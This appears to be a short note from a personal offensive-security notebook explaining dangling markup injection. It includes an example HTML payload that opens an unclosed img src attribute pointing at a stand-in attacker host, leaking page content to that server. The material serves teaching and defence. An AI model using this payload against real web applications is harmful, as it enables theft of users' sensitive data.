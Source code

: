 Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.
## Example
Suppose an application is vulnerable to XSS and does not filter or escape the `>` or `"` characters. An attacker can break out of any quoted attribute value and the enclosing tag using `">` in their payload which allows them to return to an HTML context.

However, a regular XSS attack is not possible, due to input filters, [content security policy](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FContent%20Security%20Policy%2FIntroduction), or other obstacles. In this case, an attacker can deliver the following payload:
```html
"><img src='//attacker-website.com?
```
This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note the payload doesn't close the `src` attribute, which is left "dangling". When the browser parses the response, it will look throughout the content until it encounters another single quote to terminate the attribute. Everything until that character will be treated as part of the URL and will be sent to the attacker's server within the query string.

The consequence of this example attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data.
## Note
Any attribute that makes an external request can be used for dangling markup.